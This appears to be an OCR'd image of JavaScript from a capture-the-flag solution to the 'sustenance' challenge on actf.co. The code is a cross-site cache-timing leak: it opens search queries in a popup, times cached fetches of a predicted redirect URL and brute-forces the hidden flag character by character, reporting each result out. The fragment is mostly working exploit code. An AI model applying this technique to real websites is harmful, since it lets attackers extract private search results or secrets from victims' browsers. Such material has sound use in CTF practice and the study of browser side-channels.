 ``` js
  }

  // NOTE: server is quite fast so no need to set timeout
  async function getLoadTime(url) {
    const start = performance.now()
    await fetch(url, { cache: 'force-cache', mode: 'no-cors' })
    return performance.now() - start
  }

  function genSucceedUrl(t) {
    let ft = t + ''
    while(ft.length < 13) {
      ft += '0'
    }
    const status = "succeeded, but please give me sustenance if you want to be able to see your search results because I desperately require sustenance";
    return 'https://sustenance.web.actf.co/?m=' + encodeURIComponent(`your search that took place at ${ft} has ${status}`);
  }

  async function isCached(str) {
    let start = +new Date()
    let win = window.open(`https://sustenance.web.actf.co/q?q=` + encodeURIComponent(str))
    await sleep(500)
    win.close()
    
    // NOTE: base on the data collected, i should be 1~20, pretty small number
    for(let i=1; i<=30; i++) {
      const url = genSucceedUrl(start + i)
      let loadTime = await getLoadTime(url)
      if (loadTime <= baseLine) {
        
        // NOTE: check again to see if it really meets the condition
        let total = 0
        for(let j=1; j<=3; j++) {
          total += await getLoadTime(url)
        }
        total/=3
        if (total <= baseLine) {
          report(`isCached success, str=${str}, i=${i}, start=${start}, total=${total}`)
          return true
        }
      }
    }
    return false
  }

  async function main() {
    let flag = 'actf{yummy_'
    
    // NOTE: we can leak the charset first to speed up the process
    let chars = 'acefsmntuy_}'.split('')
    while(flag[flag.length - 1] !== '}') {
      for(let char of chars) {
        report('trying:'  + flag + char)
        if (await isCached(flag + char)) {
          flag += char
          report('flag:' + flag)
          break
        }
      }
    }
  }
```